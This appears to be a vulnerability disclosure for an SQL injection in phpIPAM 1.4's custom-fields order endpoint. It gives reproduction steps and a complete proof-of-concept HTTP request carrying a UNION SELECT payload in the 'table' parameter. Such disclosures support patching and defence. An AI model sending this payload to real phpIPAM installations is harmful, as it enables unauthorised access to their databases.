

# Vulnerability Type

SQL Injection

# Description

phpIPAM 1.4 allows SQL injection via the app/admin/custom-fields/order.php table parameter when action=add is used.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/phpipam/phpipam/
 - Version: 1.4
 - Tested on: Windows 10

 ## Exploit Description

The `table` parameter is vulnerable to SQL injection due to insufficient filtering, and exploitation requires satisfying multiple path constraints within the application flow.

 ## Steps to Reproduce

 1. Login as an admin user.
 1. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie.
 1. Observe the result: 



 ## Proof Of Concept
```
# Ensure you have a valid user session before executing the PoC.

POST /app/admin/custom-fields/order.php HTTP/1.1
Host: phpipam
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=<valid_session_id>

table=test_table%60+UNION+SELECT+1%2C2%2C3+--+&current=non-empty&next=non-empty&action=add
```

